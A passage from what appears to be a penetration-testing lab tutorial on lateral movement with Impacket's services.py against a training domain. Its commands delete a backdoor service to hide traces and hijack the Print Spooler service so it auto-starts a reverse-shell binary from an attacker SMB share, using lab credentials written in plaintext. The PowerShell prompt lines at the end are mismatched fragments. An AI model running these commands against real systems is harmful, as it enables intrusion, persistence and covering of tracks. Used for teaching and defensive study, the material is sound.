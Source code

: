 Finally, we can cover up the traces and delete the service by typing `delete -name <serviceName>`:

```shell
proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 delete -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Deleting service Service Backdoor

```

Alternatively, we use `services.py` to modify existing services; for example, if we find a service authenticated as a specific user account, we can change the configuration of that service and make it execute our payload. In the following example, we can modify the `Spooler` service to execute our payload. First, let's see the current service configuration:

```shell
proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying service config for Spooler
TYPE              : 272 -  SERVICE_WIN32_OWN_PROCESS  SERVICE_INTERACTIVE_PROCESS
START_TYPE        :  4 -  DISABLED
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : C:\Windows\System32\spoolsv.exe
LOAD_ORDER_GROUP  : SpoolerGroup
TAG               : 0
DISPLAY_NAME      : Print Spooler
DEPENDENCIES      : RPCSS/http/
SERVICE_START_NAME: LocalSystem

```

Next we will modify the binary path to our payload and set the `START_TYPE` to `AUTO START` with the option `-start_type 2`:

```shell
proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name Spooler -path "\\\\10.10.14.207\\share\\rshell-9001.exe" -start_type 2
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Changing service config for Spooler

```

Finally, we can start the service and wait for our command execution:

```shell
proxychains4 -q impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name Spooler
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Starting service Spooler

```

The advantage of this is that if a service is configured with a specific user account, we can take advantage of that account and impersonate it.


[SRV02]: PS C:\Users\helen\Documents>
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>